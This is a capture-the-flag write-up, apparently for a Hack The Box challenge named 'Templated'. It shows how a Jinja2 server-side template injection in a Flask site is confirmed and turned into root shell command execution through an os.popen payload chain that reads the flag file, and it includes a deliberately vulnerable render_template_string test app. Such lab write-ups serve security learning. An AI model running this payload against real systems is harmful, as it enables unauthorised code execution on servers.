 #+TITLE: Templated
#+AUTHOR: Romeu Vieira

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: templated

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

When you enter the given URL, you are directly presented with this text:

#+begin_src
Site still under construction
Proudly powered by Flask/Jinja2
#+end_src

This information is here for a reason. You have two different technologies that
go hand-in-hand when doing simple Python web development: Flask and Jinja2.
First thing you can think of is that maybe Flask has some vulnerabilities that
can be exploited. And altough that could be true, the title of the challenge is
an hint.
=Templated=... and Jinja2 is a template engine. Therefore, this could be a
challenge where you have to know how to exploit a Server Side Template Injection
(SSTI).
First thing we can try, to verify this is doing something like this on the
Address Bar: =http://209.97.138.240:30840/{{1+1}}=. We are trying to check if
=1+1= is evaluated.

We get this after submitting the URL:

#+begin_src
Error 404
The page '2' could not be found
#+end_src

It seems ={{1+1}}= was evaluated to =2=! So it is confirmed that we are able to
do an SSTI.
An object we can access on a GET request is called =request=.
If we execute =http://209.97.138.240:30840/{{request}}= we get this string
=<Request 'http://209.97.138.240:30840/%7B%7Brequest%7D%7D' [GET]>= which
represents an object in Python.
From this object, we can see its methods and attributes. We may try doing a
request to =http://209.97.138.240:30840/{{dir(request)}}= but we will encounter
a 500 Internal Server Error without any relevant information.

For this, I just fired an instance of Flask on my side using the following code:

#+begin_src python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        print(dir(request))
        return "test"

if __name__ == "__main__":
    app.run(debug=True)
#+end_src

Then I just executed =python app.py= and follow the URL.
Then the output of `dir(request)` will be printed to the console:

#+begin_src python
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_cached_json', '_get_data_for_json', '_get_file_stream', '_get_stream_for_parsing', '_load_form_data', '_parse_content_type', 'accept_charsets', 'accept_encodings', 'accept_languages', 'accept_mimetypes', 'access_control_request_headers', 'access_control_request_method', 'access_route', 'application', 'args', 'authorization', 'base_url', 'blueprint', 'cache_control', 'charset', 'close', 'content_encoding', 'content_length', 'content_md5', 'content_type', 'cookies', 'data', 'date', 'dict_storage_class', 'disable_data_descriptor', 'encoding_errors', 'endpoint', 'environ', 'files', 'form', 'form_data_parser_class', 'from_values', 'full_path', 'get_data', 'get_json', 'headers', 'host', 'host_url', 'if_match', 'if_modified_since', 'if_none_match', 'if_range', 'if_unmodified_since', 'input_stream', 'is_json', 'is_multiprocess', 'is_multithread', 'is_run_once', 'is_secure', 'json', 'json_module', 'list_storage_class', 'make_form_data_parser', 'max_content_length', 'max_form_memory_size', 'max_forwards', 'method', 'mimetype', 'mimetype_params', 'on_json_loading_failed', 'origin', 'parameter_storage_class', 'path', 'pragma', 'query_string', 'range', 'referrer', 'remote_addr', 'remote_user', 'routing_exception', 'scheme', 'script_root', 'shallow', 'stream', 'trusted_hosts', 'url', 'url_charset', 'url_root', 'url_rule', 'user_agent', 'values', 'view_args', 'want_form_data_parsed']
#+end_src

From here we find =application= attribute which is relevant for what we want to
do.

By following this logic, now there is a possibility of using
[[https://www.python.org/download/releases/2.3/mro/][Python MRO]] to our advantage do actually
execute any shell command we want. We can import any python module by using =__import__= through the =request=
object from Flask:

#+begin_src
{{request.application.__globals__.__builtins__.__import__}}
#+end_src

A module that is used to execute shell commands is =os=, where we can use the
=popen= method. We can first try and check the id of the current user:

#+begin_src
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
#+end_src

The result is as follows:

#+begin_src
uid=0(root) gid=0(root) groups=0(root)
#+end_src

We are already root! Now let us see what `ls` gives us:

#+begin_src
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
#+end_src

We can clearly see that we are on the root directory of the filesystem, which
has a file called =flag.txt=.

To read the flag, we just do =cat flag.txt=!

* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
<p class="footer_right">16-01-2021</p>
<p><a class="footer" href="/index.html">Homepage</a></p>
<p><a class="footer" href="/writeups/htb/index.html">Back</a></p>
<div style="clear: both;"></div>
</footer>
#+END_EXPORT
